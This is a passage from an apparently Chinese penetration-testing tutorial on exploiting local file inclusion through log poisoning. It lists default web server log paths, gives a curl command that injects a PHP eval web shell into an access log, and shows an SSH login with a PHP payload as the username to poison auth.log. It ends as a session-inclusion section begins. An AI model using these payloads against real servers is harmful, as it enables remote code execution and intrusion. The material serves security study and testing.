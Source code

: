 2.  curl 命令行 url 请求工具（避免 url 转码的存在)
    

6.2. 获取日志存放路径

日志默认路径

(1) apache+Linux 日志默认路径

/etc/httpd/logs/access\_log

/var/log/httpd/access\_log

(2) apache+win2003 日志默认路径

D:\\xampp\\apache\\logs\\access.log

D:\\xampp\\apache\\logs\\error.log

(3) IIS6.0+win2003 默认日志文件

C:\\WINDOWS\\system32\\Logfiles

(4) IIS7.0+win2003 默认日志文件

%SystemDrive%\\inetpub\\logs\\LogFiles

(5) nginx 日志文件

日志文件在用户安装目录 logs 目录下

以我的安装路径为例 / usr/local/nginx,

那我的日志目录就是在 / usr/local/nginx/logs 里

6.3. 利用方式

使用浏览器访问特殊字符会被编码, 可以使用 curl 避免特殊字符被编码, 但是需要注意的是 \[ \] 在 curl 是特殊符号，需要进行转义 ，不然 curl 使用时会报错

curl -v "http://xxxxx/file.php?page=<?php @eval($\_POST\\\[123\\\]);?>"?page=<?php @eval($\_POST\\\[123\\\]);?>"

7\. 包含 SSH log 日志

7.1. 利用条件

需要知道 ssh-log 的位置，且可读。默认情况下为 /var/log/auth.log

7.2. 利用方式

0.  首先使用 ssh 连接
    

    ssh '<?php phpinfo(); ?>'@remotehost

0.  然后随意输入密码
    
1.  最后结合文件包含漏洞即可利用
    

8\. 包含 SESSION

8.1. 利用条件

0.  找到 Session 内的可控变量
    